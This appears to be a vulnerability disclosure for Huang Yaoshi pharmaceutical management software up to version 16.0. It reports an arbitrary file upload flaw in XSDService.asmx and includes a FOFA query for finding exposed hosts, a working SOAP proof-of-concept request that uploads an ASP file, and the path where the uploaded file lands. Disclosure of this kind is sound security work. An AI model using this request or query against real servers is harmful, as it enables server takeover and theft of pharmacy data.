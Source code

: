 ## fofa
```
body="XSDService.asmx"
```
![image](https://github.com/user-attachments/assets/b9d2708e-7429-47c3-a346-38f380def928)

## product

 Huang Yaoshi Pharmaceutical Management Software

## Vendor of Product

https://product.11467.com/info/2149952.htm

## VERSION

 Huang Yaoshi Pharmaceutical Management Software <= 16.0

## Vulnerability Type

File Upload

## Description
There is an arbitrary file upload vulnerability in UploadFile under the/XSDService.asmx file of the "Huang Pharmacist" drug management software. Attackers can upload arbitrary files and gain server privileges



## POC：
```
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/UploadFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFile xmlns="http://tempuri.org/">
      <filePath></filePath>
      <fileName>1.asp</fileName>
      <buffer>PCUgcmVzcG9uc2Uud3JpdGUoImhlbGxvIHdvcmxkIiklPg==</buffer>
      <Offset>1111</Offset>
    </UploadFile>
  </soap:Body>
</soap:Envelope>
```
![image](https://github.com/user-attachments/assets/2a0bd71d-3282-4c6d-8991-b5d0414a02ef)

Then you can find the uploaded file in the following directory of the website: /Upload2015/1.asp
![image](https://github.com/user-attachments/assets/023c6bdf-9b77-4997-bc2c-df016c5a3861)






